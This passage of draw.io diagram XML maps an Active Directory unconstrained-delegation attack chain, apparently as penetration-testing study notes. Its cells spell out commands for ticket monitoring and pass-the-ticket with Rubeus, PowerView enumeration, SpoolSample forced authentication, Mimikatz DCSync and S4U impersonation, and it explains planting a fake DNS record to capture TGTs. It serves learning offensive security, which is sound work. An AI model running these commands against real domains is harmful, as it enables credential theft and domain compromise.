        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-139" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;strokeColor=#3333FF;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-132" target="zsb6fFKO1eEHvJ3RfYXY-138" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-132" value="Monitor Stored Tickets" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;fontStyle=1" parent="1" vertex="1">
          <mxGeometry x="1130" y="2923" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-134" value="&lt;div&gt;Rubeus&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#dae8fc;strokeColor=#6c8ebf;" parent="1" vertex="1">
          <mxGeometry x="1250" y="3033" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-135" value="&lt;div&gt;&lt;div&gt;&lt;div&gt;PS C:\Tools&amp;gt; .\Rubeus.exe monitor /interval:5 /nowrap&lt;/div&gt;&lt;/div&gt;&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="1250" y="3093" width="390" height="50" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-137" value="&lt;div&gt;&lt;div&gt;&lt;div&gt;&lt;b&gt;If we are able to compromise a server that has unconstrained delegation enabled, and a Domain Administrator subsequently logs in, we will be able to extract their TGT&lt;/b&gt;&lt;/div&gt;&lt;/div&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="1250" y="3143" width="390" height="50" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-142" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-138" target="zsb6fFKO1eEHvJ3RfYXY-140" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-146" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;strokeColor=#3333FF;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-138" target="zsb6fFKO1eEHvJ3RfYXY-145" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-138" value="&lt;div&gt;Group Enumeration&lt;/div&gt;" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;fontStyle=1" parent="1" vertex="1">
          <mxGeometry x="1800" y="2923" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-140" value="&lt;div&gt;Powerview&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#dae8fc;strokeColor=#6c8ebf;" parent="1" vertex="1">
          <mxGeometry x="1900" y="3033" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-141" value="&lt;div&gt;&lt;div&gt;&lt;div&gt;&lt;div&gt;PS C:\Tools&amp;gt; Import-Module .\PowerView.ps1&lt;/div&gt;&lt;div&gt;PS C:\Tools&amp;gt; Get-DomainGroup -MemberIdentity sarah.lafferty&lt;/div&gt;&lt;/div&gt;&lt;/div&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="1900" y="3093" width="390" height="50" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-143" value="&lt;b&gt;The /ptt option/flag is used to pass the received ticket into memory so that it can be used for future requests&lt;/b&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="1900" y="3143" width="390" height="50" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-144" value="&lt;div&gt;&lt;b&gt;Note: We can also use the command net view \\COMPUTERNAME to identify available shares.&lt;/b&gt;&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="1900" y="3193" width="390" height="50" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-149" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-145" target="zsb6fFKO1eEHvJ3RfYXY-147" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-154" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;strokeColor=#3333FF;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-145" target="zsb6fFKO1eEHvJ3RfYXY-153" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-145" value="&lt;div&gt;Using the Ticket to Request another Ticket&lt;/div&gt;" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;fontStyle=1" parent="1" vertex="1">
          <mxGeometry x="2430" y="2923" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-147" value="&lt;div&gt;Rubeus&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#dae8fc;strokeColor=#6c8ebf;" parent="1" vertex="1">
          <mxGeometry x="2520" y="3033" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-151" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-148" target="zsb6fFKO1eEHvJ3RfYXY-150" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-148" value="&lt;div&gt;&lt;div&gt;PS C:\Tools&amp;gt; .\Rubeus.exe asktgs /ticket:&amp;lt;ticket&amp;gt; /service:&amp;lt;service&amp;gt;/&amp;lt;target.fqdn&amp;gt; /ptt&lt;/div&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="2520" y="3093" width="390" height="50" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-150" value="&lt;div&gt;&lt;b&gt;In case the above command doesn&#39;t work, we can also use the renew action to get a brand new TGT instead of a TGS ticket:&lt;/b&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="2520" y="3193" width="390" height="47" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-152" value="&lt;div&gt;PS C:\Tools&amp;gt; .\Rubeus.exe renew /ticket:doIFmTCCBZWgAwIBBaE&amp;lt;SNIP&amp;gt;LkxPQ0FM /ptt&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="2520" y="3240" width="390" height="47" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-157" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-153" target="zsb6fFKO1eEHvJ3RfYXY-155" edge="1">
          <mxGeometry relative="1" as="geometry">
            <Array as="points">
              <mxPoint x="3210" y="2953" />
              <mxPoint x="3210" y="3010" />
              <mxPoint x="3150" y="3010" />
              <mxPoint x="3150" y="3063" />
            </Array>
          </mxGeometry>
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-169" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0.5;entryY=0;entryDx=0;entryDy=0;strokeColor=#3333FF;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-153" target="zsb6fFKO1eEHvJ3RfYXY-168" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-153" value="&lt;div&gt;Using the Ticket&lt;/div&gt;" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;fontStyle=1" parent="1" vertex="1">
          <mxGeometry x="3060" y="2923" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-155" value="&lt;div&gt;From console (CMD/PS)&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#dae8fc;strokeColor=#6c8ebf;" parent="1" vertex="1">
          <mxGeometry x="3180" y="3033" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-156" value="&lt;div&gt;PS C:\Tools&amp;gt; dir \\&amp;lt;target&amp;gt;\c$&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="3180" y="3093" width="390" height="50" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-166" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.75;entryDx=0;entryDy=0;strokeColor=#3333FF;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-158" target="zsb6fFKO1eEHvJ3RfYXY-132" edge="1">
          <mxGeometry relative="1" as="geometry">
            <Array as="points">
              <mxPoint x="1270" y="3350" />
              <mxPoint x="1270" y="3240" />
              <mxPoint x="1110" y="3240" />
              <mxPoint x="1110" y="2968" />
            </Array>
          </mxGeometry>
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-158" value="&lt;div&gt;Leveraging the Printer Bug&lt;/div&gt;" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;" parent="1" vertex="1">
          <mxGeometry x="1130" y="3320" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-165" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-160" target="zsb6fFKO1eEHvJ3RfYXY-161" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-160" value="&lt;b&gt;The Printer Bug is a flaw in the MS-RPRN protocol (Print System Remote Protocol). This protocol defines the communication of print job processing and print system management between a client and a print server. To leverage this flaw, any domain user can connect to the spools named pipe with the RpcOpenPrinter method and use the RpcRemoteFindFirstPrinterChangeNotificationEx method, and force the server to authenticate to any host provided by the client over SMB.&lt;/b&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="1130" y="3380" width="390" height="130" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-161" value="&lt;div&gt;Force auth using SpoolSample.exe&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#dae8fc;strokeColor=#6c8ebf;" parent="1" vertex="1">
          <mxGeometry x="1400" y="3560" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-162" value="&lt;div&gt;&lt;div&gt;PS C:\Tools&amp;gt; .\SpoolSample.exe &amp;lt;from-target.fqdn&amp;gt; &amp;lt;to-target.fqdn&lt;span style=&quot;background-color: transparent; color: light-dark(rgb(0, 0, 0), rgb(255, 255, 255));&quot;&gt;&amp;gt;&lt;/span&gt;&lt;/div&gt;&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="1400" y="3620" width="390" height="50" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-164" value="&lt;div&gt;&lt;div&gt;&lt;div&gt;&lt;div&gt;&lt;b&gt;The positional arguments are from - to&lt;/b&gt;&lt;/div&gt;&lt;/div&gt;&lt;/div&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="1400" y="3670" width="390" height="20" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-171" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;strokeColor=#3333FF;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-168" target="zsb6fFKO1eEHvJ3RfYXY-170" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-181" value="YES" style="edgeLabel;html=1;align=center;verticalAlign=middle;resizable=0;points=[];" parent="zsb6fFKO1eEHvJ3RfYXY-171" vertex="1" connectable="0">
          <mxGeometry x="-0.497" y="3" relative="1" as="geometry">
            <mxPoint as="offset" />
          </mxGeometry>
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-183" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;strokeColor=#3333FF;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-168" target="zsb6fFKO1eEHvJ3RfYXY-182" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-184" value="NO" style="edgeLabel;html=1;align=center;verticalAlign=middle;resizable=0;points=[];" parent="zsb6fFKO1eEHvJ3RfYXY-183" vertex="1" connectable="0">
          <mxGeometry x="-0.518" relative="1" as="geometry">
            <mxPoint as="offset" />
          </mxGeometry>
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-168" value="TGT of DC?" style="rhombus;whiteSpace=wrap;html=1;" parent="1" vertex="1">
          <mxGeometry x="3080" y="3200" width="80" height="80" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-174" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-170" target="zsb6fFKO1eEHvJ3RfYXY-172" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-176" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;strokeColor=#3333FF;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-170" target="zsb6fFKO1eEHvJ3RfYXY-175" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-170" value="&lt;div&gt;Performing DCSync&lt;/div&gt;" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;" parent="1" vertex="1">
          <mxGeometry x="3280" y="3210" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-172" value="&lt;div&gt;Mimikatz&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#dae8fc;strokeColor=#6c8ebf;" parent="1" vertex="1">
          <mxGeometry x="3370" y="3308" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-173" value="&lt;div&gt;C:\Tools&amp;gt; mimikatz.exe&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;div&gt;mimikatz # lsadump::dcsync /user:sarah.lafferty&lt;/div&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="3370" y="3368" width="390" height="62" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-179" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-175" target="zsb6fFKO1eEHvJ3RfYXY-177" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-180" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.75;entryDx=0;entryDy=0;jumpStyle=arc;strokeColor=#3333FF;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-175" target="zsb6fFKO1eEHvJ3RfYXY-153" edge="1">
          <mxGeometry relative="1" as="geometry">
            <Array as="points">
              <mxPoint x="3980" y="3240" />
              <mxPoint x="3980" y="3170" />
              <mxPoint x="3040" y="3170" />
              <mxPoint x="3040" y="2968" />
            </Array>
          </mxGeometry>
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-175" value="&lt;div&gt;Request a Ticket as user&lt;/div&gt;" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;" parent="1" vertex="1">
          <mxGeometry x="3840" y="3210" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-177" value="&lt;div&gt;Rubeus&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#dae8fc;strokeColor=#6c8ebf;" parent="1" vertex="1">
          <mxGeometry x="3930" y="3308" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-178" value="&lt;div&gt;PS C:\Tools&amp;gt; .\Rubeus.exe asktgt /rc4:&amp;lt;Hash NTLM&amp;gt; /user:sarah.lafferty /ptt&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="3930" y="3368" width="390" height="62" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-190" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.25;entryDx=0;entryDy=0;jumpStyle=arc;strokeColor=#3333FF;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-182" target="zsb6fFKO1eEHvJ3RfYXY-153" edge="1">
          <mxGeometry relative="1" as="geometry">
            <Array as="points">
              <mxPoint x="3000" y="3590" />
              <mxPoint x="3000" y="2938" />
            </Array>
          </mxGeometry>
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-182" value="&lt;div&gt;S4U2self for Non-Domain Controllers&lt;/div&gt;" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;" parent="1" vertex="1">
          <mxGeometry x="3060" y="3560" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-188" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-185" target="zsb6fFKO1eEHvJ3RfYXY-186" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-185" value="&lt;b&gt;With the ticket captured from DC using Rubeus monitor and SpoolSample we can use Rubeus s4u /self to forge a service ticket for any service. Let&#39;s create a ticket to connect through SMB using the CIFS service. We will need to use Rubeus s4u /self, set the alternative service to CIFS, and use the ticket we have&lt;/b&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="3060" y="3620" width="390" height="100" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-186" value="&lt;div&gt;Rubeus&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#dae8fc;strokeColor=#6c8ebf;" parent="1" vertex="1">
          <mxGeometry x="3340" y="3770" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-187" value="&lt;div&gt;.\Rubeus.exe s4u /self /nowrap /impersonateuser:&amp;lt;username&amp;gt; /altservice:&amp;lt;service&amp;gt;/&amp;lt;fqdn&amp;gt; /ptt /ticket:&amp;lt;kirbi-ticket&amp;gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="3340" y="3830" width="390" height="62" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-189" value="&lt;div&gt;&lt;b&gt;This command allows us to impersonate Administrator and request a service ticket for the CIFS service, enabling SMB connections as the impersonated user. This method is particularly useful for scenarios where we have a ticket from a computer that is not a domain controller.&lt;/b&gt;&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="3340" y="3892" width="390" height="88" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-3" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;" parent="1" source="zsb6fFKO1eEHvJ3RfYXY-191" target="VL_DeuJodb9uclPqMyuw-2" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="zsb6fFKO1eEHvJ3RfYXY-191" value="USERS" style="rounded=0;whiteSpace=wrap;html=1;" parent="1" vertex="1">
          <mxGeometry x="929" y="3760" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-1" value="Users in Active Directory can also be configured for unconstrained delegation, and it&#39;s quite different to exploit." style="rounded=0;whiteSpace=wrap;html=1;" parent="1" vertex="1">
          <mxGeometry x="929" y="3820" width="121" height="120" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-6" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="1" source="VL_DeuJodb9uclPqMyuw-2" target="VL_DeuJodb9uclPqMyuw-4" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-9" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;strokeColor=#FF0000;" parent="1" source="VL_DeuJodb9uclPqMyuw-2" target="VL_DeuJodb9uclPqMyuw-8" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-2" value="&lt;div&gt;Enumeration&lt;/div&gt;" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;" parent="1" vertex="1">
          <mxGeometry x="1250" y="3760" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-4" value="&lt;div&gt;PowerView Enumeration Unconstrained Delegation&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#dae8fc;strokeColor=#6c8ebf;" parent="1" vertex="1">
          <mxGeometry x="1330" y="3881" width="390" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-5" value="&lt;div&gt;&lt;div&gt;&lt;div&gt;&lt;div&gt;&lt;div&gt;PS C:\Tools&amp;gt; Import-Module .\PowerView.ps1&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;&lt;div&gt;PS C:\Tools&amp;gt; Get-DomainUser -LDAPFilter &quot;(userAccountControl:1.2.840.114.1.4.803:=524288)&quot;&lt;/div&gt;&lt;/div&gt;&lt;/div&gt;&lt;/div&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="1330" y="3941" width="390" height="69" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-7" value="&lt;div&gt;&lt;i&gt;If we somehow managed to compromise an account, we also need to be able to update its SPN list, so we need an account with GenericWrite privileges on the compromised account.&lt;/i&gt;&lt;/div&gt;&lt;div&gt;&lt;i&gt;&lt;br&gt;&lt;/i&gt;&lt;/div&gt;&lt;div&gt;&lt;i&gt;We can leverage this unconstrained delegation privilege to become a domain administrator if these conditions are met.&lt;/i&gt;&lt;/div&gt;&lt;div&gt;&lt;i&gt;&lt;br&gt;&lt;/i&gt;&lt;/div&gt;&lt;div&gt;&lt;i&gt;This attack aims to create a DNS record that will point to our attack machine. This DNS record will be a fake computer in the Active Directory environment. Once this DNS record is registered, we will add the SPN CIFS/our_dns_record to the account we compromised, which is in an unconstrained delegation. So, if a victim tries to connect via SMB to our fake machine, it will ship a copy of its TGT in its TGS ticket since it will ask for a ticket for CIFS/our_registration_dns. This TGS ticket will be sent to the IP address we chose when registering the DNS record, i.e., our attack machine. All we have to do then is extract the TGT and use it.&lt;/i&gt;&lt;/div&gt;&lt;div&gt;&lt;i&gt;&lt;br&gt;&lt;/i&gt;&lt;/div&gt;&lt;div&gt;&lt;i&gt;We will use Dirkjanm&#39;s krbrelayx tools suite for this attack.&lt;/i&gt;&lt;/div&gt;&lt;div&gt;&lt;i&gt;&lt;br&gt;&lt;/i&gt;&lt;/div&gt;&lt;div&gt;&lt;i&gt;First, we&#39;ll use dnstool.py to add a fake DNS record&amp;nbsp; pointing to our attack host using any valid domain account.&lt;/i&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;align=left;" parent="1" vertex="1">
          <mxGeometry x="1330" y="4010" width="390" height="319" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-12" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="1" source="VL_DeuJodb9uclPqMyuw-8" target="VL_DeuJodb9uclPqMyuw-10" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-14" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;strokeColor=#FF0000;" parent="1" source="VL_DeuJodb9uclPqMyuw-8" target="VL_DeuJodb9uclPqMyuw-13" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-8" value="&lt;div&gt;Create fake DNS record&lt;/div&gt;" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;" parent="1" vertex="1">
          <mxGeometry x="1940" y="3760" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="VL_DeuJodb9uclPqMyuw-10" value="&lt;div&gt;Create a Fake DNS Record&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=0;fillColor=#f8cecc;strokeColor=#b85450;" parent="1" vertex="1">
          <mxGeometry x="2030" y="3881" width="390" height="60" as="geometry" />
        </mxCell>
